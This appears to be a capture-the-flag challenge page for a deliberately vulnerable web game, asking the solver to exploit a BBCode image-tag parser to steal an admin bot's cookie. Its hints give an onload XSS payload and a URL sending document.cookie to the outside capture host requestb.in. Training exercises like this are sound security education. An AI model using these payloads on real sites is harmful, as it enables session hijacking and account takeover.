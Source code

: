 # XSS/CSRF Challenge 3

----------------------

Hey friend,

I recently added profile signatures to user profiles (due to popular demand from my users). These signatures can be set under the Preferences page, and support BBCode.

I had a user recently complain to me that his account got hacked. Apparently the hacker found something in my BBCode parser he was able to exploit to do an XSS attack and steal this user's cookie, then login as him.

Can you see if you can duplicate that attack? I have a phantomjs bot setup that will log in as my admin account and visit all user profiles in the game - to trigger it, just go to Trigger Admin Browser in the navigation. See if you can steal that account's cookies!

Thanks!

-Breakthenet Game Owner

----------------------

Stuck? 
----------------------
<details> 
  <summary>Click for hint 1</summary>
   BBCode allows you to embed an image like so: [img]http://url.com/image.jpg[/img]
   
   Play around with that.
</details>

<details> 
  <summary>Click for hint 2</summary>
   Try breaking the BBCode image tag by inserting other characters (besides the url) inside of it. Use chrome inspector or view-source on "My Profile" to see what your BBCode input looks like when it's translated into html.
</details>

<details> 
  <summary>Click for hint 3</summary>
   http://requestb.in/ is a neat site for testing webhooks. Cookie stealing is kind of like a webhook. If you were somehow able to get javascript execution, you could potentially change the SRC of the image to something like this:
   
   http://requestb.in/1fj9x6o1?c='+document.cookie
   
   And then review the cookie (passed as a GET parameter) on requestb.in!
</details>

<details> 
  <summary>Click for hint 4</summary>
   Did you know you can execute javascript when an image loads? It's simple! All you have to do is use the onLoad attribute, like so:
   
   &lt;img src="logo.png" onload="alert(1)"&gt;
</details>

<details> 
  <summary>Click for hint 5</summary>
   While you can edit cookies with plain javascript, you can also cheat and use a browser extension like [this one](https://chrome.google.com/webstore/detail/editthiscookie/fngmhnnpilhplaeedifhccceomclgfbg?hl=en).
</details>




